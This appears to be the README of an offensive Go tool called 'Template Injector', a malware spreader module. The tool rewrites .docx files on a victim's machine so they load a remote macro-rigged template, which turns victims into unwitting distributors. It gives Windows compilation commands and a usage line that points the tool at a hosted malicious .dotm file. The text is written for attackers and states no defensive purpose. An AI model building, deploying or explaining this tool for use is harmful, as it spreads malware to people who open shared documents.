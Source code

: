 # Template Injector

This spreader module works by searching for document files (specifically .docx files) on a victim's system & injecting a macro-rigged template into any found document files. Then, when the victim distributes the newly rigged document, the person that opens it & enables content will end up with our malware. This means that your victim will be distributing your malware for you!

This works by forcing the document to contain our malicious template (by modifying/adding internal files of the document such as app.xml, settings.xml, [Content-Types].xml, footnotes.xml, endnotes.xml, settings.xml.rels, document.xml.rels, )

Normally, template injection only works if the document was previously created with a template. For example, when you open Word, you're presented with a screen like this or similar:

![](imgs/img1.png)

When you choose a template (EX: the single spaced (blank) template), you can now perform template injection by unzipping the word document and modifying the `Target` variable in the `settings.xml.rels` file to be the location of your malicious template. But if your document was created without a template (Blank document for example), then you cannot perform template injection. 

This script will allow you to force a document with no template have a malicious template and essentally perform template injection. All you need to do is pass the URL of the malicious template to the `-url` flag.

# Compilation

* for 32-bit machines: `GOOS=Windows GOARCH=386 go build injector.go`
* for 64-bit machines: `GOOS=Windows GOARCH=amd64 go build injector.go`

# Command-Line Usage

* `injector.exe -url http://192.168.1.212:8000/maliciousTemplate.dotm` (Replace the url with where you have hosted your malicious template)

# References

* Converting from Unix LF to Windows CR LF - https://www.programming-books.io/essential/go/normalize-newlines-1d3abcf6f17c4186bb9617fa14074e48)
